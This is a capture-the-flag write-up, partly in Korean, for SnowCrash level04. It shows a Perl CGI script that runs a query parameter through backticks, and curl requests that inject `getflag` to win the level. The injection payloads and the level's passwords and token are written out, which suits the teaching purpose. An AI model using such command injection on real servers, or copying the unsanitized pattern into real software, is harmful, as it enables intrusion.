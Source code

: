 ## Level 04

Put the password for the level04.

```
qi0maab88jeaj46qoumi7maus
```

With a command of _ls_, we found a file written in perl script. <ins>This is a simple **CGI**(Common Gateway Interface) script that takes a parameter "x" from the query string adn prints the result of runnig the command specified by the parameter using the 'echo' commmand. <ins>

In summary, the script takes a parameter named "x" from the query string, uses it as a command, executes the command, and prints the result.

> [!NOTE] What is CGI? :

> _CGI, or Common Gateway Interface, is a standard interface that enables communication between a web server and external programs or scripts. It allows for the creation of dynamic web pages, processing user input, and interaction with databases._

```
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

<details>
  <summary> Details for the perl script </summary>

이 Perl 스크립트는 CGI(Common Gateway Interface) 스크립트로, 쿼리 문자열에서 "x"라는 매개변수를 가져와 해당 매개변수로 지정된 명령을 실행한 결과를 출력하는 간단한 CGI 스크립트입니다.

1. `#!/usr/bin/perl`: 이것은 해시뱅(해시 기호(#)와 느낌표(!)) 라인으로, 이 스크립트를 실행하기 위해 사용되어야 하는 Perl 인터프리터의 경로를 지정합니다.

2. `use CGI qw{param};`: 이 라인은 CGI 모듈에서 `param` 함수를 가져옵니다. `param` 함수는 쿼리 문자열에서 매개변수의 값을 가져오는 데 사용됩니다.

3. `print "Content-type: text/html\n\n";`: 이 라인은 "text/html" 형식의 콘텐츠임을 나타내는 HTTP 헤더를 전송합니다. 두 번의 개행(`\n\n`)은 헤더와 본문을 구분합니다.

4. `sub x { ... }`: 이것은 "x"라는 서브루틴(함수)을 정의합니다. 하나의 매개변수를 사용하고 그 값을 `$y` 변수에 할당합니다.

5. `$y = $_[0];`: 이 라인은 서브루틴에 전달된 첫 번째(이 경우에는 유일한) 인수를 `$y` 변수에 할당합니다.

6. `print `echo $y 2>&1`;`: 이 라인은 `$y`에 지정된 명령의 결과를 출력합니다. 역따옴표(`)는 명령을 실행하는 데 사용되며, `2>&1`은 표준 출력과 표준 에러를 모두 출력으로 리다이렉션하는 것입니다. 이는 일반 출력과 오류 메시지를 모두 캡처하는 일반적인 기술입니다.

7. `x(param("x"));`: 이 라인은 쿼리 문자열에서 "x" 매개변수의 값을 사용하여 "x" 서브루틴을 호출합니다.

요약하면, 이 스크립트는 쿼리 문자열에서 "x"라는 매개변수를 가져와 해당 값을 명령으로 사용하여 명령을 실행하고 결과를 출력합니다.

Below is the example of an error message based on our requests to a web server running on 127.0.0.1:4747 (The case that I omit the x parameter for intention to see the response.)

```
level04@SnowCrash:~$ curl '127.0.0.1:4747/level.pl?=`whoami`'
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /level.pl was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Ubuntu) Server at 127.0.0.1 Port 4747</address>
</body></html>
level04@SnowCrash:~$ curl '127.0.0.1:4747/level.pl?=`getflag`'
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /level.pl was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Ubuntu) Server at 127.0.0.1 Port 4747</address>
</body></html>
```

</details>

<br>

**Differences of using double quotes and backticks** in shell commandds within perl

So we can see the perl version 14 is on our shell.

```
level04@SnowCrash:~$ perl --version

This is perl 5, version 14, subversion 2 (v5.14.2) built for i686-linux-gnu-thread-multi-64int
(with 57 registered patches, see perl -V for more detail)
```

**1. Double quotes("")**

So, I run a command with a one parameter x as below with **""** (double quotes) . If that word is a string as "Hello world", it prints out the program as below, it treats the command as part of a string :

```
level04@SnowCrash:~$ ./level04.pl x="Hello world"
Content-type: text/html

Hello world
level04@SnowCrash:~$ ./level04.pl x="Hello Yooyoo"
Content-type: text/html

Hello Yooyoo
```

**2. Backticks(``)**
When you use backticks, the enclosed command is executed in a subshell, and its output is captured. **It treats the enclosed content as a shell command and executes it.**

```
level04@SnowCrash:~$ ./level04.pl x=`whoami`
Content-type: text/html

level04
level04@SnowCrash:~$ ./level04.pl x=`who`
Content-type: text/html

level02
level04@SnowCrash:~$ ./level04.pl x=`whom`
The program 'whom' can be found in the following packages:
 * mailutils-mh
 * nmh
Ask your administrator to install one of them
Content-type: text/html
```

> [!NOTE]

> PERL (Practical Extraction and Reporting Language) ? Perl is a high-level, general-purpose programming language that was originally developed for text manipulation and used extensively for system administration tasks.

> 1. Perl was initially designed for efficient text processing, making it well-suited for tasks involving regular expressions, string mainpulation, and file processing.

> 2. Perl has been traditionally used for system administration tasks, such as automating repetitive operations, managing files, and interacting with the operating system.

> 3. Perl has been historically popular for server-side scripting in web development. The CGI (Common Gateway Interface) protocol, which allows web servers to execute scripts, played a significant role in the early days of dynamic web content.

<br>

So, what if we add the same logic for the localhost:4747 ?
Nothing came out..

```
level04@SnowCrash:~$ perl localhost:4747
Can't open perl script "localhost:4747": No such file or directory
level04@SnowCrash:~$ ./level04.pl x=`localhost:4747`
localhost:4747: command not found
Content-type: text/html


level04@SnowCrash:~$ curl localhost:4747
```

Or, what if we run on our host with the port 4747?
Flag04 came out with the whoami parameter.

```
level04@SnowCrash:~$ curl '127.0.0.1:4747/level04.pl?x=`whoami`'

flag04
```

Maybe we can try again with x parameter with **getflag**. And here we go, we got the flag :)

```
level04@SnowCrash:~$ curl '127.0.0.1:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

<details>
  <summary> Password </summary>
  ne2searoevaevoem4ov4ar8ap
  </details>
